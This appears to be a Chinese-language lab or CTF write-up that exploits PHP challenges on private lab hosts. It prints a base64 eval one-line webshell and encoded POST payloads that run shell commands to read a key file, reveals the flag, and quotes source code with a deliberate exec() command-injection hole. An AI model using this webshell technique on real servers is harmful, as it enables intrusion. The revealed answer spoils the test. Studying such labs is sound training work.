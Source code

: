 代码审计，判断有没有$a，过滤一些符号，然后解密一段base64

看下base64是什么

```php
[@eval(base64_decode($_POST[z0]));]
```

是一句话木马，用POST传了z0

我们回到原来的页面试一下

先传一个 **Hello** ，然后用 **&** 符号连接起来，再跟一个 **z0**

![image-20221224104727583](F:/Typora_pic/pte/image-20221224104727583.png)

没反应，嗯，要把传进去的z0进行base64，因为他会decode

![image-20221224104945075](F:/Typora_pic/pte/image-20221224104945075.png)

传进去了，审题一下，key在根目录下直接用

```php
system('ls -a');
Hello=1&z0=c3lzdGVtKCdscyAtYScpOw==
system('ls -a ../');
Hello=1&z0=c3lzdGVtKCdscyAtYSAuLi8nKTs=
system('cat ../key.php');
Hello=1&z0=c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==
```

![image-20221224105547110](F:/Typora_pic/pte/image-20221224105547110.png)

右键查看源代码

**key3:ce8nrwd7**

## 4、http://10.11.0.92:1004

这题是代码审计，先把前端显示贴过来

```php+HTML
0 <?php
    header("Content-type:text/html;charset=utf-8"); 
    /*
    Hint:
    get the shell find the key；）\n";
    */
    echo strlen($_GET['cmd']);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 30) {
        @exec($_GET['cmd']);
    }
    highlight_file(__FILE__);
    
echo "<br /> IP : {$_SERVER['REMOTE_ADDR']}";

IP : 10.11.0.10
```
